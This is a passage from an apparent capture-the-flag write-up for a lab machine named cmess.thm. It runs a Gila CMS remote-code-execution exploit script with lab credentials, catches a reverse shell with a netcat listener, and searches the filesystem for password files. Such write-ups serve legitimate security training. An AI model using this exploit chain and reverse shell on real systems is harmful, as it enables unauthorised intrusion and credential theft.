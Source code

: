 ```bash
~  python3 51569.py

 ██████╗ ██╗██╗      █████╗      ██████╗███╗   ███╗███████╗    ██████╗  ██████╗███████╗                                                                
██╔════╝ ██║██║     ██╔══██╗    ██╔════╝████╗ ████║██╔════╝    ██╔══██╗██╔════╝██╔════╝                                                                
██║  ███╗██║██║     ███████║    ██║     ██╔████╔██║███████╗    ██████╔╝██║     █████╗                                                                  
██║   ██║██║██║     ██╔══██║    ██║     ██║╚██╔╝██║╚════██║    ██╔══██╗██║     ██╔══╝                                                                  
╚██████╔╝██║███████╗██║  ██║    ╚██████╗██║ ╚═╝ ██║███████║    ██║  ██║╚██████╗███████╗                                                                
 ╚═════╝ ╚═╝╚══════╝╚═╝  ╚═╝     ╚═════╝╚═╝     ╚═╝╚══════╝    ╚═╝  ╚═╝ ╚═════╝╚══════╝                                                                
                                                                                                                                                       
                              by Unknown_Exploit                                                                                                       
                                                                                                                                                       
Enter the target login URL (e.g., http://example.com/admin/): http://cmess.thm/admin
Enter the email: andre@cmess.thm
Enter the password: KPFTN_f2yxe%
Enter the local IP (LHOST): 10.14.109.66
Enter the local port (LPORT): 9090
File uploaded successfully.
```
after complete the last step open listener :
```bash
rlwrap nc -nlvp 9090
```

### Gain a shell
```bash
T4T4R1S  | Local IP ➜ 192.168.115.128 | VPN IP ➜ 10.14.109.66
~  rlwrap nc -nlvp 9090
listening on [any] 9090 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.70.174] 44782
bash: cannot set terminal process group (732): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cmess:/var/www/html/tmp$ whoami
whoami
www-data
```
I try harder to get any thing interested but noting after that i tried to search for some words like `Password` : 

```bash
www-data@cmess:/home$ find . / -name *password* 2>/dev/null
find . / -name *password* 2>/dev/null
/usr/share/pam/common-password.md5sums
/usr/share/pam/common-password
/usr/share/man/man1/systemd-tty-ask-password-agent.1.gz
/usr/share/man/man1/systemd-ask-password.1.gz
/usr/share/man/man8/systemd-ask-password-console.service.8.gz
/usr/share/man/man8/systemd-ask-password-console.path.8.gz
/usr/share/man/man8/systemd-ask-password-wall.service.8.gz
/usr/share/man/man8/systemd-ask-password-wall.path.8.gz
/usr/share/help-langpack/en_AU/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_AU/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_AU/ubuntu-help/user-changepassword.page
/usr/share/help-langpack/en_GB/zenity/password.page
/usr/share/help-langpack/en_GB/evince/password.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-changepassword.page
```